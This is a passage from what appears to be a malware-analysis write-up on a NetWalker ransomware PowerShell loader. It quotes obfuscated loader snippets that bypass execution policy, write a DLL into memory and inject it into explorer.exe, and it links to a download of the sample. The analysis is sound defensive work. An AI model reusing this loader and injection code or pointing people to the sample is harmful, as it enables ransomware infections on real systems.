 {% highlight powershell %}
[byte[]]$EbihwfodUZMKtNCBx = $ptFvKdtq
$aukhgaZFiPJBarSpJc = $false
if ( ( Get-WmiObject Win32_processor).AddressWidth -eq 64 )
{
 [byte[]]$EbihwfodUZMKtNCBx = $GxwyKvgEkr
 $aukhgaZFiPJBarSpJc = $true    
 if ( $env:PROCESSOR_ARCHITECTURE -ne 'amd64' )
    {
      if ($myInvocation.Line) 
         {
            &"$env:WINDIR\sysnative\windowspowershell\v1.0\powershell.exe" -ExecutionPolicy ByPass -NoLogo -NonInteractive -NoProfile -NoExit $myInvocation.Line
         }
      else
         {
            &"$env:WINDIR\sysnative\windowspowershell\v1.0\powershell.exe" -ExecutionPolicy ByPass -NoLogo -NonInteractive -NoProfile -NoExit -file "$($myInvocation.InvocationName)" $args
         }
      exit $lastexitcode
    }
}
{% endhighlight %}

later it allocates memory in current process's address space and starts writing dll on the allocated memory using following for loop

{% highlight powershell %}
for( $dxQpkwU = 0; $dxQpkwU -lt $TKgfkdkQrLMAN.KGcnFrQVhkckQriBC.nKkeCknfm; $dxQpkwU++ )
{
    $PdWhwldJHtQhtsMJe = [System.Runtime.InteropServices.Marshal]::PtrToStructure( $lItUIbvCvHxzMmrKtX,[Type][Fvh.wTEWKRjOqBX] )
    $rZKYDiOJE  = RBeMnMHvnbNEob $eIr $( ULhnbcyXERLvVtGXUp $PdWhwldJHtQhtsMJe.sUtYsMhA )
    $MxyiIYGMhxakrDbKyjL = RBeMnMHvnbNEob $upEcLTMCGhc $( ULhnbcyXERLvVtGXUp $PdWhwldJHtQhtsMJe.cymIspbCOaY )
    $mofiZSsnxylxNuA = $AaauDVCQMlKUXx::PMUN( $VxxHhZYpWSgsPvKNuDx, $MxyiIYGMhxakrDbKyjL, $rZKYDiOJE, $PdWhwldJHtQhtsMJe.mkvugoDzrJgTSSJp, [ref]([UInt32]0 ) )
   
    if ( $mofiZSsnxylxNuA -eq $false )
       {
         return
       }
    $lItUIbvCvHxzMmrKtX = RBeMnMHvnbNEob $lItUIbvCvHxzMmrKtX $([System.Runtime.InteropServices.Marshal]::SizeOf([Type][Fvh.wTEWKRjOqBX]))
}
{% endhighlight %}

snapshot of object containig dll that gets written into current process's memory

![image](/assets/images/psloader/dll_struct.png){:class="img-responsive"}

after that it calls following routine with certain parameters to inject payload by specifying a legitimate target process which is 'explorer.exe' in this case along with memory location pointer for buffer containg Dll and size of the buffer containing dll


[netwalker-ransomware]: https://labs.sentinelone.com/netwalker-ransomware-no-respite-no-english-required/
[fileless-attacks]: https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/security-101-how-fileless-attacks-work-and-persist-in-systems
[link-to-download-ps1-loader]: https://bazaar.abuse.ch/download/f4656a9af30e98ed2103194f798fa00fd1686618e3e62fba6b15c9959135b7be/
[md5-e17951ccd3f30ef2ecc7963628210a5e]: https://www.virustotal.com/gui/file/302ff75667460accbbd909275cf912f4543c4fb4ea9f0d0bad2f4d5e6225837b/detection
[md5-f5c877335920f0ef040228e18b426d00]: https://www.virustotal.com/gui/file/f93209fccd0c452b8b5dc9db46341281344156bbedd23a47d2d551f80f460534/detection
[here]: https://github.com/0x00-0x7F/IDAPython_scripts/blob/master/netwalker_crc32hash_resolver.py
